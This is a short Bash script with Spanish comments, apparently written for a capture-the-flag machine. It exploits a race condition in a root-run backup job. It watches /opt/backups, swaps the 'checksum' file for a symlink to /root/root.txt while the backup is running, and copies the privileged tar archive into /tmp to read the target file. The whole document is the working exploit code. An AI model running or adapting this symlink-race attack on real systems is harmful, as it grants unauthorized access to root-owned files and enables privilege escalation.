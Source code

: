 TARGET="/root/root.txt"; BACK="/opt/backups"; OUT="/var/backups/web_backups"; TMP="/tmp";
echo "[*] watcher: esperando primer tar en $BACK";
while true; do
  # detectar primer tar creado por el primer tar -cvf
  tarfile=$(ls -1 "${BACK}" 2>/dev/null | grep -E '^[0-9]+\.tar$' | head -n1)
  if [ -n "$tarfile" ]; then
    echo "[*] watcher: detectado $tarfile"
    # eliminar checksum si existe y crear symlink hacia TARGET
    rm -f "${BACK}/checksum" 2>/dev/null
    ln -sf "${TARGET}" "${BACK}/checksum" && echo "[*] watcher: symlink creado -> ${TARGET}"
    # esperar un poco a que el segundo tar se ejecute y cree el tar final
    sleep 6
    # buscar el tar final más reciente en OUT y copiarlo a /tmp
    newtar=$(ls -1 "${OUT}" 2>/dev/null | grep -E '^[0-9]+\.tar$' | tail -n1)
    if [ -n "$newtar" ]; then
      echo "[*] watcher: encontrado tar final ${OUT}/${newtar} ; intentando copiar a ${TMP}"
      cp "${OUT}/${newtar}" "${TMP}/" 2>/dev/null && echo "[*] watcher: copiado a ${TMP}/${newtar}" || echo "[!] watcher: no se pudo copiar"
      break
    else
      echo "[!] watcher: no encontré tar final, esperar un poco más"
      sleep 2
    fi
  fi
  # polling rápido
  sleep 0.15
done
echo "[*] watcher terminado"
